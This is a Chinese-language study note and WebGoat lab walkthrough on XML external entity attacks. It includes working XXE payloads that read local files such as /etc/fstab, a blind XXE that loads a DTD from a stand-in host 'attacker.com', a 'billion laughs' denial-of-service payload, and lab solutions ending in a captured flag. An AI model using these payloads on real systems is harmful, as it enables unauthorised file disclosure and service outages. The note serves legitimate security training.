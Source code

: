 # XEE
XML 外部实体攻击。

* Classic 包含一个本地文件
* Blind 返回中没有显示输出或者错误
* Error 尝试从错误页面获取信息。

参考：

[https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/](https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/)

```
<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE author [
  <!ELEMENT author (#PCDATA)>
  <!ENTITY js "Jo Smith">
]>
<author>&js;</author>
```
一般利用引入属性来解决问题。比如：

``` xml
<!DOCTYPE user
    [<!ENTITY root SYSTEM "file:///">
]>
```

但是有时候目标文件有 <>&, 等非法 XML 字符无法被直接嵌入。需要盲 XXE。方法就在自己服务器上上传一个 dtd 文件，而后利用属性实体进行导入。

比如：

```
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents
'%start;%file;%end;'>">
```

``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM
  "http://attacker.com/evil.dtd">
  %dtd;
  %all;
]>
<data>&fileContents;</data>
```

## DOS 攻击

也可以利用 XXE 进行攻击。比如:

```XML
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

## Task1

直接使用:

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE copyright [<!ENTITY test SYSTEM "file:///">]>
<comment><text>hello&test;</text></comment>
```

即可。

## Task2

发现服务器可以识别 xml。将 content-type 修改成 application/xml 后上传上题 xml 即可。

## Task3

Blind XXE。利用 `Python -m http.server` 上传了本地文件 task.dtd 而后构造攻击 xml 为
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE copyright [
  <!ENTITY % dtd SYSTEM
  "http://192.168.122.1:2000/task.dtd">
  %dtd;
  %all;
]>
<comment><text>&fileContents;</text></comment>
```

获得 flag 为 `WebGoat 8.0 rocks... (jbNnHGDMUM)`
